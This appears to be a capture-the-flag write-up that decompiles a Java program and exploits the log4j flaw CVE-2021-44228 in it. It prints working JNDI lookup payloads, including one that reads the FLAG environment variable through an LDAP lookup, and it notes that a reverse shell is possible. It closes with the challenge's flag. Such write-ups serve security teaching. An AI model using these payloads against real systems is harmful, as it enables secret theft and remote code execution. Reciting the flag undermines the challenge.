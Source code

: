 #### Log4Flag - Hard

*There is this program that is supposed to give me the flag. However, even if I beg for it and say the magic word, it won't return it. Try to lookup the flag.*

*You can test your solution locally. Connect to the server once it works to retrieve to flag:* <br>
*nc hostname 8082*

<br>

[Log4Flag.zip](../Public/Log4Flag.zip)

<br>

This is the response if we connect to the server:
```
$ nc hostname port
Do you want the flag?
yes
Try Harder! <3

Do you want the flag?
no
What are you even doing here? :P

Do you want the flag?
test 
Try a different input!

Do you want the flag?
...
```

Running the code locally with `run.sh` yields the same results. The response won't help us much for now. The `Log4Flag.zip` contains Java bytecode in the file `Log4Flag.class`. We can use `bytecode-viewer` or a website like [javadecompilers](http://www.javadecompilers.com/) to get the Java source code.

```java
import java.util.Scanner;

import org.apache.logging.log4j.Logger;
import org.apache.logging.log4j.LogManager;

public class Log4Flag {
    public static void main(String[] array) {
        try {
            final Logger logger = LogManager.getLogger("Log4Flag");

            while (true) {
                System.out.println("Do you want the flag?");
                String input = new Scanner(System.in).next();

                if (input.toLowerCase().contains("yes") && input.toLowerCase().contains("please")) {
                    System.out.println("I won't give you the flag this easily!");
                    logger.error("Unauthorized access attempt with input: {}", (Object) input);
                } else if (input.toLowerCase().contains("yes")) {
                    System.out.println("Try Harder! <3");
                } else if (input.toLowerCase().contains("please")) {
                    System.out.println("Getting closer!");
                } else if (input.toLowerCase().contains("no")) {
                    System.out.println("What are you even doing here? :P");
                } else {
                    System.out.println("Try a different input!");
                }
                System.out.println("");
            }
        } catch (Exception x) {
            System.err.println(x);
        }
    }
}
```
We can see that the code is using log4j. This should ring a bell about the zero day exploit in log4j that was published about a year ago [CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2021-44228). Knowing this and looking at the challenge name, it is kind of obvious what we should do now. We need to use this vulnerability to find the flag.

We can also see that the logger is used if our input contains the words "yes" and "please". 
```bash
$ ./run.sh
Do you want the flag?
yesplease
I won't give you the flag this easily!
22:01:16.185 [main] ERROR Log4Flag - Unauthorized access attempt with input: yesplease
```

We can see that we now get a response from the logger as well. However, we haven't gotten the flag yet. We need to dig deeper.
We will start with a PoC to show that the vulnerability is present in the code:

```
$ ./run.sh 
Do you want the flag?
${jndi:ldap://127.0.0.1/test}yesplease
I won't give you the flag this easily!
2022-11-25 21:58:39,272 main WARN Error looking up JNDI resource [ldap://127.0.0.1/test]. javax.naming.CommunicationException: 127.0.0.1:389 [Root exception is java.net.ConnectException: Connection refused (Connection refused)]
        at java.naming/com.sun.jndi.ldap.Connection.<init>(Connection.java:252)
        at java.naming/com.sun.jndi.ldap.LdapClient.<init>(LdapClient.java:137)
        ...

21:58:39.179 [main] ERROR Log4Flag - Unauthorized access attempt with input: ${jndi:ldap://127.0.0.1/test}yesplease
```

The error messages proof that the vulnerability exists. The server tries to conntact a LDAP server and the connection gets refused. If we have a LDAP server, we could try to send request to it in order to create a reverse shell. This is not neccessary in this example. If we look at the `run.sh` script, we can see that the flag is saved in an environment variable called `FLAG`.
We can perform an environment lookup with log4j and retrieve the flag from the environment variables. 

```
$ ./run.sh     
Do you want the flag?
${jndi:ldap://127.0.0.1/${env:FLAG}}yesplease
I won't give you the flag this easily!
2022-11-25 22:10:38,008 main WARN Error looking up JNDI resource [ldap://127.0.0.1/nland{dummy-flag}]. javax.naming.CommunicationException: 127.0.0.1:389 [Root exception is java.net.ConnectException: Connection refused (Connection refused)]
...

22:10:37.920 [main] ERROR Log4Flag - Unauthorized access attempt with input: ${jndi:ldap://127.0.0.1/${env:FLAG}}yesplease
```

We managed to exploit the code locally and to retrieve the dummy flag. It is contained in the exception log. Now we just have to execute the same payload on the server and we will be rewarded with the real flag. <br>
The flag is `nland{3nv1r0nm3n7_l00kup_&_m461c_w0rd_4_fl4g}`.
